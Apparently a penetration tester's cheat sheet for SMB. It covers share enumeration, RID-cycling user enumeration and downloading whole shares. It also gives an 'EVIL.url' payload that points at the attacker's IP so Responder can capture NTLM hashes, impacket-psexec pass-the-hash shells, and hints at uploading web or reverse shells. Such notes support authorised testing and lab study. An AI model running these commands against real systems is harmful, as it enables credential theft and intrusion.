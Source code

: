 ## Password Spraying
use [[Netexec]] to determine if any creds you have are valid

## Automated Enumeration
enum4linux-ng
	if results come back, look THOUROUGHLY (cleartext passwords possible)
```bash
# anonymous auth
enum4linux-ng -AC <ip>

# authenticated auth
enum4linux-ng -AC -u <user> -p <pass> -w <domain> <ip>

## ALTERNATIVE
enum4linux <ip>
```

nbtscan
```bash
sudo nbtscan -r 192.168.50.0/24 #IP or range can be provided
```

Vuln Scan:
```bash
nmap -script=smb-vuln\* -p445 <ip>
```

## RID Cycling Attack
RID Cycling (User Enumeration)
```bash
# nxc method
nxc smb <ip> -d <domain> -u 'guest' -p '' --rid-brute

# impacket-lookupsid method
impacket-lookupsid <domain>/guest@<ip> -n
```
## Manual Enumeration
DO NOT IGNORE ANY FOLDERS, INCLUDING NETLOGON AND SYSVOL!!! DOWNLOAD THE WHOLE SHARE AND TREE -A
#### Linux
Anonymous Auth
```bash
# Note, linux boxes you may use forward slash //
# List Shares
smbclient -N -L \\\\<ip_address>

# Connect to Share
smbclient -N \\\\<ip_address>\\<share>
```

Authenticated Auth
```bash
# lists shares
smbclient -L \\\\<ip_address> --user <user> --workgroup <domain>

# Connect to share
smbclient \\\\<ip_address>\\<share> --user <user> --workgroup <domain>`
```

Download whole shares
```bash
# If theres a lot to parse, it might be useful to grab it all and 'tree' it

mask ""
recurse ON
prompt OFF
mget *
```

#### Windows
There may be some scenarios where we cannot use smbclient to authenticate (see errors section) and are forced to use windows commands from windows host

```sh
# First identify share you want to access from victim host

# map share to drive
net use H: \\<ip>\<share> /user:<domain>\<user> <PASSWD> /y

# verify share was mapped
net view \\<ip>

# Switch drive
H:
```

## PUT File Abuse
can you put files to the SMB server?
	yes?
		try responder to catch a user hash:
```bash
1. Create file 'EVIL.url' with this malicious code:

[InternetShortcut]  
URL=Random_nonsense  
WorkingDirectory=Flibertygibbit  
IconFile=\\<YOUR tun0 IP>\%USERNAME%.icon  
IconIndex=1

2. Start responder

sudo responder -I tun0 -wv


3. Upload EVIL.url to SMB share

4. Check Responder for user hash

```
Learn more about similar attacks [here ](https://github.com/Greenwolf/ntlm_theft?source=post_page-----158516460860---------------------------------------)

Also consider uploading reverse shells / web shells if the target hosts an http server

## File Transfer
Might be able leverage SMB to upload a webshell, then get a reverse shell...

Also, adjusting `timeout` value can be useful for large file transfer such as SYSTEM, ntds.dit, etc...
	`timeout <time_in_seconds>`
	default is 0
	so
		`timeout 1000` should be sufficient for anything


## Remote Command Execution
If we have credentials with Administrative privileges, we can use `impacket-psexec` to gain a shell via SMB

impacket-psexec Usage
```bash
# hash
impacket-psexec -hashes <LMHASH:NTHASH> administrator@<victim_ip> <command(cmd.exe)>

# password
impacket-psexec 'domain'/'user':'password'@<target_ip> <command(cmd.exe)>
```

## Errors

NT_STATUS_INVALID_WORKSTATION
	This means the workstation will only accept connections from certain boxes 
		ie: internal hosts only most likely...
	How to fix?
		Browse the share from an internal host
		see manual enumeration -- may have to use windows techniques


